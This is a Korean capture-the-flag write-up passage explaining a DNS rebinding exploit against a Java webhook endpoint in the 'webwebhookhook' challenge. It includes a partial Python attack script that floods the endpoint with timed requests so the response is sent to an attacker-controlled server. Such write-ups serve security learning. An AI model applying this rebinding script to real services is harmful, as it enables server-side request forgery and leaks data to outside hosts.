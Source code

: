 해당 스크립트는 다음의 로직을 수행합니다.

1. 상수 `WEBHOOK` 에 정의된 `/webhook` 엔드포인트로 `DNS Rebinding` 도메인을 URL 파라미터 `hook` 에 담아 첫 번째 POST 요청을 수행합니다. 이 때 `hook` 에 담겨진 도메인의 A 레코드 응답은 `example.com` 도메인의 호스트 주소 `93.184.215.14` 를 응답합니다.
    - 이때, `/webhook` 엔드포인트의 URL 객체 비교 구문(`if(h.hook == hook)`)을 통과합니다.
2. 이후 `if` 문이 통과되었고, 첫 번째 POST 요청에 대한 응답으로 `{"response": "ok"}` 를 받은 뒤 일정 시간동안 대기합니다.
    - DNS 질의 응답을 받은 이후 일정 시간(30초)동안 캐시에 저장되므로 해당 시간동안 캐시된 DNS 질의 응답을 사용하게 됩니다.(ref. [참고 링크](https://github.com/AdoptOpenJDK/openjdk-jdk11/blob/19fb8f93c59dfd791f62d41f332db9e306bc1422/src/java.base/share/classes/sun/net/InetAddressCachePolicy.java#L48))
    - 만약 `{"response": "ok"}` 응답만 받고 플래그를 획득하지 못하는 경우 `TIME_OFFSET` 값을 줄입니다. 반대로 `{"result": "fail"}` 응답만 받는 경우는 `TIME_OFFSET` 값을 늘립니다.
3. 그 다음 `/webhook` 엔드포인트로 `DNS Rebinding` 도메인을 URL 파라미터 `hook` 에 담아 대량의 POST 요청을 전송합니다.
    - 이때, `hook` 에 담겨진 도메인의 A 레코드 응답은 자신의 서버 주소입니다.
    - 대량의 요청을 전송하는 이유는 DNS 캐시가 만료되기 전에 URL 객체 비교 구문(`if(h.hook == hook)`)을 통과하고, `hook.openConnection()` 구문이 실행되는 시점에 자신의 서버 주소를 응답받기 위함입니다.
4. 최종적으로 자신의 서버에서 플래그를 확인할 때 까지 위 과정을 반복합니다.

```python
import random
import requests
import time
import json
from concurrent.futures import ThreadPoolExecutor, as_completed

# TARGET = "http://localhost:8080"
TARGET = "https://webwebhookhook-0e7670270076cd04.i.chal.irisc.tf"
WEBHOOK = f"{TARGET}/webhook"

# SOCKET_SERVER_HOST = "your server ip" # e.g. 123.123.123.123
REBINDER_DNS = f"http://s-93.184.215.14-{SOCKET_SERVER_HOST}-{{0}}-fs-e.d.rebind.it/admin"

# Cache time in seconds; used to control the duration data is stored before being refreshed
CACHE_TIME = 30
# Adjust the TIME_OFFSET value to fine-tune the DNS rebinding timing:
# - If you only receive a {"response": "ok"} but fail to obtain the flag, reduce the TIME_OFFSET value.
# - If you only receive a {"response": "fail"}, increase the TIME_OFFSET value.
TIME_OFFSET = 3

def hook(i, session, hook_url, data):
    headers = {'Content-Type': 'application/json'}
    params = {
        "hook": hook_url
    }
    resp = session.post(WEBHOOK, headers=headers, params=params, data=data)
    return i, resp.text

def main():
    while True:
        session = requests.session()
        sess = int(random.random() * (2**32))
        print(f"[*] Start - {sess}")
        print(f"[*] Using Domain: {REBINDER_DNS.format(sess)}")
        while True:
            _, result =  hook("start", session, REBINDER_DNS.format(sess), "A")
            if "response" in result:
                print("[*] Waiting for the DNS cache to be cleared...")
                break

        time.sleep(CACHE_TIME - TIME_OFFSET)

        futures = []
        with ThreadPoolExecutor(max_workers=1000) as pool:
            for i in range(1000):
```